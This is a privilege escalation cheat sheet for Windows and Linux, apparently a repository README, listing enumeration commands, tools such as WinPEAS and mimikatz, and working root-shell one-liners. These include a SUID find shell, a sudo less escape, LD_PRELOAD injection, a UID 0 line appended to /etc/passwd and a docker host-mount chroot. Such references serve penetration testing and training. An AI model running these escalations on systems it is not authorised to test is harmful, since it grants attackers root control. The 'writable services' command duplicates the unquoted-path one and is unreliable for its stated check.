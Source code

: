 # Privilege Escalation Cheat Sheets 🔓

### Purpose
These cheat sheets serve as a guide to privilege escalation techniques on Windows and Linux systems. They provide an overview of common misconfigurations, exploitable conditions, and tools to aid in identifying and exploiting privilege escalation vectors.

---

## 📖 Table of Contents

1. [Windows Privilege Escalation Cheat Sheet](#windows-privilege-escalation-cheat-sheet)
2. [Linux Privilege Escalation Cheat Sheet](#linux-privilege-escalation-cheat-sheet)

---

## 1. Windows Privilege Escalation Cheat Sheet

### 🔍 Common Misconfigurations to Check For

1. **Writable Services**:
   - Check for services that run with high privileges but are writable by non-admin users.
   - **Command**:
     ```powershell
     wmic service get name,displayname,pathname,startmode | findstr /i "Auto" | findstr /i /v "C:\Windows\\" | findstr /i /v """
     ```

2. **Unquoted Service Paths**:
   - Unquoted paths in services can lead to privilege escalation if an executable is placed in the path.
   - **Command**:
     ```powershell
     wmic service get name,displayname,pathname,startmode | findstr /i "Auto" | findstr /i /v "C:\Windows\\" | findstr /i /v """
     ```

3. **Insecure File Permissions**:
   - Check for files and directories with insecure permissions, which may allow modification by lower-privileged users.
   - **Command**:
     ```powershell
     icacls "C:\path\to\file"  # Check specific file permissions
     ```

4. **Weak Registry Permissions**:
   - Some registry keys may be writable and lead to privilege escalation (e.g., setting autostart programs).
   - **Command**:
     ```powershell
     reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Run
     ```

5. **Scheduled Tasks**:
   - Scheduled tasks with weak permissions or writable executables can allow privilege escalation.
   - **Command**:
     ```powershell
     schtasks /query /fo LIST /v
     ```

### 💣 Exploit Techniques

1. **DLL Hijacking**:
   - If a privileged application loads a missing DLL from a directory where non-admin users have write access, a malicious DLL can be loaded instead.

2. **Token Impersonation**:
   - Some processes running with SYSTEM privileges may allow impersonation by lower-privileged users.
   - **Technique**:
     - Use tools like `Incognito` in Metasploit or `mimikatz` to list and impersonate available tokens.

3. **Service Exploitation**:
   - Misconfigured services (e.g., unquoted paths, writable binaries) can be exploited by replacing the service binary with a malicious payload.

4. **Insecure Registry Settings**:
   - Modify registry values such as `AlwaysInstallElevated` to allow elevation of low-privileged MSI files.

### 🛠 Tools for Finding Privilege Escalation Vectors

1. **WinPEAS**: Scans for common privilege escalation vectors on Windows.
   - **Usage**:
     ```powershell
     .\winPEASx64.exe
     ```

2. **PowerUp**: PowerShell script to find and exploit common privilege escalation weaknesses on Windows.
   - **Example Commands**:
     ```powershell
     Import-Module .\PowerUp.ps1
     Invoke-AllChecks
     ```

3. **Seatbelt**: Enumeration tool for Windows environments to identify potential attack vectors.
   - **Usage**:
     ```powershell
     .\Seatbelt.exe all
     ```

---

## 2. Linux Privilege Escalation Cheat Sheet

### 🔍 SUID Binaries to Exploit

- **List all SUID binaries**: Check for binaries with the SUID bit set, which may allow privilege escalation.
  ```bash
  find / -perm -4000 -type f 2>/dev/null
  ```

- **Common Exploitable SUID Binaries**:
  - **`/bin/bash`**: Some systems misconfigure bash as SUID, allowing root shell access.
  - **`find`**: If `find` has SUID permissions, it can be used to execute commands as root.
    ```bash
    find . -exec /bin/sh -p \; -quit
    ```
  - **`nmap`**: Older versions of `nmap` can provide an interactive shell when launched with the `--interactive` option.
  - **`vim`** or **`nano`**: Using `vim` as SUID can allow spawning a shell with root privileges.

### 🔒 Exploitable Sudo Misconfigurations

1. **Check Sudo Privileges**:
   - Use `sudo -l` to list the commands a user can execute with sudo.
   ```bash
   sudo -l
   ```

2. **Exploitable Sudo Commands**:
   - **Sudo without Password**: If a command can be run as sudo without a password, it can be used to escalate privileges.
   - **Sudo Environment Variables**: If `sudo` allows setting of environment variables, `LD_PRELOAD` can be used to inject malicious libraries.
     ```bash
     sudo LD_PRELOAD=/path/to/lib.so command
     ```
   - **Direct Root Access via `sudo`**: Some commands like `less`, `man`, and `vim` can be exploited to spawn a root shell.

3. **Specific Exploitable Binaries**:
   - **`sudo nmap`**:
     ```bash
     sudo nmap --interactive
     ```
   - **`sudo less`**: If `less` can be run with sudo, access a shell by using `!` within `less`.
     ```bash
     sudo less /etc/hosts
     # Press !sh in less to spawn a shell
     ```

### 🛠 Enumeration Tools

1. **LinPEAS**: Scans for privilege escalation vectors on Linux.
   - **Usage**:
     ```bash
     ./linpeas.sh
     ```

2. **linux-exploit-suggester**: Recommends kernel exploits based on system configuration.
   - **Usage**:
     ```bash
     ./linux-exploit-suggester.sh
     ```

3. **LinEnum**: Another enumeration script for privilege escalation on Linux.
   - **Usage**:
     ```bash
     ./LinEnum.sh -r report.txt
     ```

### 🎛 Common Exploitable Kernel and Software Configurations

1. **Kernel Exploits**:
   - Use tools like `linux-exploit-suggester` to identify vulnerable kernel versions for which public exploits are available.

2. **Writable `/etc/passwd` or `/etc/shadow`**:
   - If `/etc/passwd` is writable, a new user can be added with root privileges.
   - **Example**:
     ```bash
     echo "hacker:x:0:0:hacker:/root:/bin/bash" >> /etc/passwd
     su hacker
     ```

3. **NFS Root Squashing Disabled**:
   - If NFS exports are misconfigured (no_root_squash enabled), it can allow root access on the NFS client machine.

4. **Docker Privilege Escalation**:
   - If the user is part of the `docker` group, they can escalate privileges by mounting the host filesystem inside a container.
   ```bash
   docker run -v /:/mnt --rm -it alpine chroot /mnt sh
   ```

---

### 📘 Resources

- **GTFOBins**: [gtfobins.github.io](https://gtfobins.github.io/) - A collection of Unix binaries that can be used to bypass local security restrictions in misconfigured systems.
- **PayloadsAllTheThings**: GitHub repository with extensive privilege escalation techniques for both Windows and Linux.
- **Windows-Exploit-Suggester**: Checks for missing patches in Windows systems that may allow privilege escalation.

